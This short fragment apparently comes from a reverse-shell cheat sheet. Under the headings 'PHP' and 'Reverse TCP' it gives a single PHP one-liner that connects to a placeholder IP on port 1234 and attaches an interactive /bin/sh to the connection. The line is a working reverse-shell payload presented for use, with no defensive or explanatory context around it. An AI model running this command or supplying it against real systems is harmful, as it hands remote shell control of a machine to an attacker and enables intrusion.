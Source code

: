 # PHP

## Reverse TCP
php -r '$sock=fsockopen("xx.xx.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

